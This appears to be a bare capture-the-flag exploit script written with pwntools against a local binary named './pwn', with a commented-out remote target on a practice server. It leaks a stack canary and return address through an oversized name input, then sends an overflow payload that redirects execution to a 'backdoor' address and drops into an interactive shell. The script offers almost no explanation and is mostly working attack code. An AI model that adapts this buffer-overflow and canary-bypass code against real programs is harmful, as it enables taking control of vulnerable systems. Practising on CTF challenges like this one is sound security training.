 ### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause()

bss=elf.bss()+0x200

ru('Please input your name: ')
#duan()
#duan()
s('a'*0x19)
r(0x18+6)
canary=u64(r(8))-0x61
leak('canary ',canary)

ret=u64(r(6).ljust(8,'\x00'))#-0xb0
leak('ret ',ret)

backdoor=0x4012BB
ru('you like to leave(MAX 4): ')
sl('2')
sl('a'*(0xa0-0x8)+p64(canary+0xaa)+'a'*8+p64(0x4012c3))
sl('a'*0x78)

itr()
```
